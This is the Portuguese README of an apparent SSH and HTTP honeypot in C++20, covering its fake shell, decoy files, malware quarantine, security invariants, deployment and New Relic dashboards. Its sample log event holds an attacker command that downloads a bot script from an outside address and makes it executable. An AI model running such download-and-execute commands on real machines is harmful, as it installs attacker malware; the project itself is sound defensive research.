

# Arapuca

Um honeypot SSH e HTTP de média interação em C++20. Ele roda num endereço
público, deixa atacantes entrarem com credenciais fracas, registra tudo o que
eles fazem, captura o que tentam baixar, e manda tudo para o New Relic, onde
os dashboards e alertas são provisionados como código.

**Ele nunca executa nada que o atacante envia.** Toda resposta do shell é
fabricada ou lida de um sistema de arquivos em memória, e o CI quebra o build
se qualquer primitiva de criação de processo aparecer no código fonte.

[Read in English](README.md)

---

## O que ele faz

**Um servidor SSH falso** que aceita apenas credenciais de uma lista das
fracas que atacantes reais tentam, e registra cada tentativa, tendo ela
funcionado ou não. A sessão que entra cai num shell falso com mais de quarenta
comandos sobre um sistema de arquivos fabricado: um servidor Ubuntu meio
abandonado, com usuários plausíveis, uma aplicação em produção e credenciais
que valem a pena roubar.

**Um servidor HTTP falso** com um painel de administração genérico nos quinze
caminhos que os scanners realmente pedem, e arquivos isca em `/.env`,
`/.git/config`, `/backup.sql`, `/wp-config.php` e outros. O que o atacante
levar desses arquivos é fabricado e não abre nada.

**Captura de malware.** Quando o atacante digita `wget` ou `curl` no shell
falso, a URL é buscada numa thread separada, com timeouts rígidos, limite de
tamanho, e uma política de endereço que recusa faixas privadas e o serviço de
metadados da nuvem. A amostra vai para quarentena como `<sha256>.zip`,
cifrada, somente leitura, nunca executada, e só o hash dela é consultado no
VirusTotal.

**Enriquecimento.** GeoIP, mapeamento MITRE ATT&CK a partir de regras em YAML,
e um classificador que decide se a sessão é bot ou provável humano pelo ritmo
da digitação.

## Arquitetura



## Invariantes de segurança

Estas são propriedades que o projeto sustenta, não intenções. Cada uma tem
teste, e várias são garantidas pela estrutura do código, não por revisão.

| | Invariante | Como se sustenta |
|---|---|---|
| S1 | Entrada do atacante nunca é executada | Nenhum `system`, `exec*`, `popen`, `fork` ou `wordexp` em `src/` ou `include/`. Uma checagem no CI quebra o build se aparecer |
| S2 | Todo buffer controlado pelo atacante tem limite | Todos os limites num único cabeçalho, aplicados antes de alocar. Com fuzzing |
| S3 | Amostras nunca são executáveis | Gravadas com modo `0400`, e o volume da quarentena é `noexec` |
| S4 | Amostras nunca são enviadas | O cliente do VirusTotal não tem função de upload, e não dá para adicionar uma sem mudar a interface |
| S5 | O processo não é privilegiado | uid 10001, portas altas, e o host mapeia a 22 e a 80 nelas |
| S6 | O sshd real sai da porta 22 antes dela ser exposta | O cloud-init move no primeiro boot, o Ansible se recusa a rodar se ainda estiver lá, e o Terraform mantém a 22 fechada até o container subir |
| S7 | Segredos nunca chegam ao repositório | Só variáveis de ambiente, com `.env.example` e uma checagem no CI contra endereço público commitado |
| S8 | O atacante não consegue encher o disco | Teto de bytes e de arquivos na quarentena, com remoção do mais antigo, mais logrotate |
| S9 | O honeypot não pode ser apontado para endereços internos ou de metadados | O endereço resolvido é checado imediatamente antes de cada conexão, e em cada redirecionamento |
| S10 | Nenhum canal alcança algo real | Encaminhamento de porta, X11, agent forwarding e todo subsistema, inclusive SFTP, são recusados e registrados |

## Rodando localmente

Ubuntu 24.04, ou qualquer coisa com as mesmas bibliotecas. É a única base
suportada, no CI, no container e na VPS.

```bash
sudo apt-get install -y --no-install-recommends \
    build-essential cmake ninja-build pkg-config \
    libssl-dev libcurl4-openssl-dev \
    libssh-dev libyaml-cpp-dev libmaxminddb-dev libminizip-dev

cmake --preset dev
cmake --build --preset dev
ctest --preset dev

./build/dev/src/arapucad --config config/arapuca.dev.yaml
```

A configuração de desenvolvimento mantém tudo que é escrito dentro de `./var`
e usa portas não privilegiadas, então não precisa preparar nada e a limpeza é
apagar essa pasta.

Depois, de outro terminal:

```bash
ssh -p 2222 root@127.0.0.1            # senha 123456
curl http://127.0.0.1:8080/.env
tail -f var/events.jsonl | jq .
```

Existe também um contêiner, construído para amd64 e arm64 e assinado com
cosign na publicação. Verifique antes de rodar, porque a graça da coisa é
justamente que ela fica onde atacantes alcançam:

```bash
cosign verify ghcr.io/carloszambonii/arapuca:latest \
  --certificate-identity-regexp '^https://github.com/CarlosZambonii/arapuca/' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com
```

## Fazendo o deploy

```bash
# 1. Rede e instância. As portas 22 e 80 ficam fechadas.
cd deploy/terraform/oci
cp terraform.tfvars.example terraform.tfvars   # preencha
terraform init && terraform apply

# 2. Endurece o host e sobe o honeypot.
terraform output -raw ansible_inventory > ../../ansible/inventory/hosts.yml
cd ../../ansible
ansible-galaxy collection install -r requirements.yml
ansible-playbook -i inventory/hosts.yml site.yml \
  -e newrelic_license_key="$NEW_RELIC_LICENSE_KEY" \
  -e virustotal_api_key="$VT_API_KEY"

# 3. Só agora abre as portas do honeypot. Isto abre 22, 80 e 8080: o honeypot
#    HTTP responde na 80 e na 8080, a porta alt-HTTP que muitos scanners
#    varrem no lugar da 80.
cd ../terraform/oci
terraform apply -var expose_honeypot_ports=true

# 4. Dashboards e alertas.
cd ../newrelic
terraform init && terraform apply -var "api_key=$NEW_RELIC_API_KEY"
```

O passo 3 é separado de propósito. Abrir a porta 22 antes do honeypot estar
escutando exporia o sshd real, e o playbook do Ansible se recusa a rodar se
detectar que ele ainda está lá.

O `docs/DEPLOYMENT.md` tem os modos de falha, inclusive como diagnosticar uma
instância que você não consegue alcançar.

## Saída

Um objeto JSON por linha, documentado campo a campo em
[`docs/EVENT_SCHEMA.md`](docs/EVENT_SCHEMA.md):

```json
{"schema_version":1,"event_type":"ssh.command","timestamp":"2026-11-02T14:31:07.482Z",
 "service":"ssh","sensor":"arapuca-sa","src_ip":"203.0.113.45","session_id":"01JBQ3...",
 "geo":{"country_iso":"CN","country":"China","asn":37963,"as_org":"Alibaba"},
 "mitre":{"technique_id":"T1105","technique":"Ingress Tool Transfer",
          "tactic":"Command and Control"},
 "command":"cd /tmp; wget http://198.51.100.9/bot.sh; chmod +x bot.sh",
 "seq":4,"since_prev_ms":11,"unknown":false}
```

### Dashboards

<!-- Os prints entram aqui quando o sensor tiver coletado uma semana
     representativa. Placeholders em vez de imagens inventadas: um dashboard
     com números fabricados representaria mal o que o projeto produz. -->

Dois dashboards e uma política de alertas com oito condições, definidos em
[`deploy/terraform/newrelic/`](deploy/terraform/newrelic/) e criados por
`terraform apply`, nunca na mão pelo console.

**Arapuca, overview**: eventos e atacantes únicos em 24 horas, logins que
funcionaram, amostras capturadas, ataques por hora e por serviço, sessões
separadas entre bot e humano, países e redes de origem, as senhas e os
usuários tentados e os pares que deram certo, comandos digitados, técnicas e
táticas ATT&CK, caminhos pedidos por HTTP, arquivos isca levados, amostras
capturadas com o veredito do VirusTotal, downloads recusados pela política de
endereços e pedidos de canal recusados.

**Arapuca, sessions**: as sessões mais longas, as que o classificador lê como
humanas, a transcrição dos comandos da mais recente para a mais antiga, o
ritmo de digitação como intervalo mediano entre comandos, comandos nunca
vistos antes, e a saúde do próprio honeypot.

As capturas de tela estão ausentes de propósito, em vez de inventadas: um
dashboard com números fabricados representaria mal o que o projeto produz, que
é justamente o que uma peça de portfólio não pode fazer. Elas vão para
[`docs/images/`](docs/images/README.md) quando o sensor tiver coletado uma
semana representativa.

### Mapa ao vivo

A página está em inglês e português, com um seletor no cabeçalho. Na
primeira visita ela segue o idioma do navegador e depois lembra a escolha.
Os nomes dos países vêm do `Intl.DisplayNames` do próprio navegador, então
leem naturalmente nos dois idiomas sem enviar tabela nenhuma.

O mapa tem zoom: a roda do mouse, um gesto de pinça ou o controle no canto
aproximam o mapa, não a página, o arrasto move, e o teclado funciona quando
ele está em foco. Abaixo dele, quando uma sessão capturada tem o que mostrar,
um terminal reproduz os comandos de um atacante com os intervalos que ele
realmente deixou entre eles, que é o `since_prev_ms` que o classificador lê
para distinguir um bot de uma mão. A prévia do link é `web/og.png`, gerada a
partir de [`web/card.html`](web/card.html) por `scripts/render_social_card.sh`.

A pasta [`web/`](web/) é uma página pública que mostra de onde vêm os ataques,
publicada no Netlify. Ela existe para o honeypot poder ser compartilhado com
quem não tem conta no New Relic, e para quem ler sobre ele poder tentar entrar
e ver o próprio país aparecer.

A chave do New Relic nunca chega ao navegador. Um job agendado roda o
`tools/live_export.py`, commita o `web/data/live.json`, e o Netlify publica
nesse push, então a chave vive só nos secrets do GitHub.

O que a página publica é deliberadamente mais grosso que o feed de IoCs: os
endereços de origem aparecem com a parte de host mascarada, porque o atacante
precisa reconhecer a própria tentativa enquanto quem divide um endereço
compartilhado não é nomeado.

### Feed de IoCs

A pasta [`iocs/`](iocs/) é regerada diariamente e a [`reports/`](reports/)
semanalmente, ambas a partir da telemetria do próprio sensor. Leia as
ressalvas em [`iocs/README.md`](iocs/README.md) antes de usar os endereços
para qualquer coisa: são observações com data, não uma lista de bloqueio.

## Organização do projeto

```
include/arapuca/  src/        cabeçalhos públicos e implementação
  core/                       configuração, eventos, bus, sink JSONL, limites
  enrich/                     GeoIP, mapeamento ATT&CK, classificador
  ssh/                        servidor libssh, shell falso, filesystem virtual
  http/                       painel admin, iscas, registro de requisições
  capture/                    política de endereço, download, quarentena, VirusTotal
config/                       credenciais, filesystem, regras ATT&CK, iscas
deploy/                       Dockerfile, compose, cloud-init, Terraform, Ansible
tools/                        exportação NerdGraph e geração de relatório
tests/                        unitários, integração e alvos de fuzzing
docs/                         schema de eventos, deploy, dependências
```

## Critérios de qualidade

Para rodar localmente tudo que o CI roda:

```bash
./scripts/verify.sh          # formatação, os dois tipos de build, sanitizers, clang-tidy
./scripts/verify.sh quick    # formatação, build debug e testes
./scripts/coverage.sh        # cobertura de linha e de ramo, com relatório HTML
```

O build release não é opcional. O GCC habilita análises sob otimização que
não consegue fazer com `-O0`, e um aviso que só aparece em release chegou ao
CI uma vez porque o portão local só construía o preset de debug.

Toda mudança passa por: GCC e Clang em x86_64 e arm64, AddressSanitizer e
UndefinedBehaviorSanitizer com detecção de vazamento, ThreadSanitizer,
clang-tidy com zero achados e perfil voltado a segurança, clang-format,
CodeQL com as consultas de segurança estendidas, oito alvos libFuzzer por
sessenta segundos cada, cobertura contra um piso, `ruff` e `mypy --strict`
no Python de `tools/`, um scan Trivy na imagem do contêiner, uma checagem de
que nenhuma primitiva de criação de processo existe, e uma checagem de que
nenhum endereço público foi commitado.

O ThreadSanitizer está aí porque o daemon é multithread de ponta a ponta: um
laço de accept por serviço, um worker de captura, um barramento limitado e um
sink compartilhado entre eles. O AddressSanitizer não enxerga corrida de dados
entre nenhum desses.

De madrugada, cada alvo de fuzzing roda dez minutos contra um corpus que se
acumula entre execuções, que é um exercício diferente do teste de sessenta
segundos no pull request: um pega regressão, o outro acha coisa nova.

Os testes de integração usam um cliente SSH real e um cliente HTTP real contra
servidores reais, porque uma política de canal pode estar certa no teste
unitário e errada no fio.

## Contribuindo e reportando

O [`CONTRIBUTING.md`](CONTRIBUTING.md) tem os portões e as convenções. O
[`SECURITY.md`](SECURITY.md) diz o que conta como vulnerabilidade aqui, que é
mais estreito do que parece: entrar com uma senha fraca é o convite, não um
achado. O [`CHANGELOG.md`](CHANGELOG.md) registra o que mudou entre as
versões.

## Aviso legal e ético

A Arapuca registra apenas o que é enviado voluntariamente por quem se conecta
a ela. Ela não ataca nada, não varre nada e não revida nada.

Antes de rodar uma:

* **Rode numa infraestrutura que seja sua.** Um honeypot na rede dos outros é
  problema dos outros.
* **Entenda a legislação local** sobre gravar conexões e sobre publicar o que
  você gravou. Dados de endereço podem ser dado pessoal onde você mora.
* **A quarentena guarda malware de verdade.** Trate aquele diretório de
  acordo, e não copie amostra para uma máquina de que você gosta.
* **Os indicadores publicados nomeiam endereços reais.** Endereços são
  reaproveitados, e o CGNAT faz um endereço representar milhares de pessoas.
  São evidência para correlacionar, não lista de bloqueio.

## Atribuição

A geolocalização de IP usa as bases Lite do [DB-IP](https://db-ip.com) (City e
ASN), sob licença [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/). As
bases são baixadas no momento do deploy e atualizadas por mês; elas não são
redistribuídas neste repositório nem na imagem do contêiner. O GeoLite2 da
MaxMind continua suportado como alternativa quando há uma chave de licença
configurada.

## Licença

MIT, veja [LICENSE](LICENSE). A licença cobre o código deste projeto, não as
bases de geolocalização acima, que mantêm os termos delas.
